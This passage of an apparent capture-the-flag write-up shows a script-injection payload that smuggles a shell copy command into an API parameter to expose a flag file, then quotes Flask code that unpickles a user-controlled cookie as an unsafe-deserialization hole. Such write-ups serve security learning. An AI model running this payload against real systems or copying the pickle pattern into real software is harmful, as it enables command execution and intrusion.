 Move the flag to web directory

```javascript
<script>fetch("/api/stats?command=cp /flag*.txt /app/static/css/flag.txt");</script>
```

![](attachment/b404b6950859499c921e69ef82f41022.png)

> http://94.237.56.76:33295/static/css/flag.txt

![](attachment/c43327a6839d1d52d0e3bc9f9ce57d64.png)

## Spellbound Servants
### Unsafe deserialization - pickle

> `challenge\application\util.py`

Unsafe deserialization with `pickle.loads()` for user controlled cookie token

```python
def isAuthenticated(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        token = request.cookies.get('auth', False)

        if not token:
            return abort(401, 'Unauthorised access detected!')
        
        try:
            user = pickle.loads(base64.urlsafe_b64decode(token))
            kwargs['user'] = user
            return f(*args, **kwargs)
        except:
            return abort(401, 'Unauthorised access detected!')
```
